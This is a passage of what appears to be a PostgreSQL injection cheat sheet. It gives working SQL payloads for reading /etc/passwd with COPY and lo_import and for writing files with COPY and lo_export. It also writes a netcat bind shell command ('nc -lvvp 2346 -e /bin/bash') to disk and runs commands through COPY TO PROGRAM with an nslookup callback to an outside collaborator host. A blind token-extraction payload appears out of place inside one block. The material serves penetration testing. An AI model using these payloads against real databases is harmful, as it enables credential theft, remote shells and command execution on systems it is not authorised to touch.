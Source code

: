 * Using `COPY`

    ```sql
    CREATE TABLE temp(t TEXT);
    COPY temp FROM '/etc/passwd';
    SELECT * FROM temp limit 1 offset 0;
    ```

* Using `lo_import`

    ```sql
    SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
    SELECT lo_get(16420); -- use the OID returned from the above
    SELECT * from pg_largeobject; -- or just get all the large objects and their data
    (select case when $${char}$$=(select SUBSTR(token,{index},1) from tokens where user_id=1 limit 1) then CAST((SELECT version()) AS INT) else 1 end)/activate
    ```
   

### PostgreSQL File Write

* Using `COPY`

    ```sql
    CREATE TABLE nc (t TEXT);
    INSERT INTO nc(t) VALUES('nc -lvvp 2346 -e /bin/bash');
    SELECT * FROM nc;
    COPY nc(t) TO '/tmp/nc.sh';
    ```

* Using `COPY` (one-line)

    ```sql
    COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
    ```

* Using `lo_from_bytea`, `lo_put` and `lo_export`

    ```sql
    SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
    SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
    SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
    ```

## PostgreSQL Command Execution

### Using COPY TO/FROM PROGRAM

Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with '`pg_execute_server_program`' to pipe to and from an external program using `COPY`.

```sql
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```
